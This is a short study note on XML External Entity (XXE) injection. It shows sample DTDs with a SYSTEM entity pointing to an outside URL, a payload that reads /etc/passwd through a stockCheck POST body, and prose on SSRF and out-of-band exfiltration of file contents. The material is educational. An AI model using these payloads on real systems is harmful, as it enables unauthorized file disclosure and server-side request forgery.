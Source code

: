 Visit [[XML]] to learn more about XML

This vulnerability comes from External XML Entity that accepts `SYSTEM` operand

Simple Example
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY entity-name SYSTEM "URI/URL">]>  
<note>  
<to>Tove</to>  
<from>Jani</from>  
<heading>Reminder</heading>  
<body>Don't forget me this weekend!</body>  
</note>
```

Now, lets put actual values inside placeholders
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY writer SYSTEM "http://x.com/">]>  
<note>  
<to>Tove</to>  
<from>Jani</from>  
<heading>Reminder</heading>  
<body>Don't forget me this weekend!</body>  
</note>
```

As a result, XML parser would send a HTTP GET request to the specified URL

To prevent this vulnerability, the web server(s) should not be able to go make a request outside the DMZ. Look at [[Modern Web Workflow]] to understand

#### XML in POST request
Reading contents of `/etc/passwd` file using a XML as a body for POST request.
Here wrong `productId` returns an error with contents of `productId`. Therefore, we can read the given file.
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY writer SYSTEM "file:///etc/passwd">]>  
<stockCheck>  
	<productId>&writer;</productId>
	<storeId>1</storeId>
</stockCheck>
```

> [!info] Causing SSRF through XXE
> You can also cause [[SSRF]] by writing localhost after `SYSTEM` operand


#### Reading an XML file using XXE
You can't just read XML files with previous methods, as the XML parser breaks and does not count another XML file as proper data

So you do a simple GET request to read the content of the xml file, and after it comes back, you send another GET request with the content of the XML file as parameter for the GET request